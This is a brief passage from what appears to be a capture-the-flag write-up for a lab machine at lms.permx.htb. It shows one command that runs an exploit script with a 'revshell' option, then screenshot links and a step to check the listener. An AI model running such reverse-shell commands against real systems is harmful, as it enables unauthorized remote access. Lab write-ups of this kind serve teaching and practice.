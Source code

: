 ```
python main.py -u http://lms.permx.htb -a revshell 
```

![](./IMG/11.png)

![](./IMG/12.png)

![](./IMG/13.png)

![](./IMG/14.png)

3. Check listener 

![](./IMG/15.png)
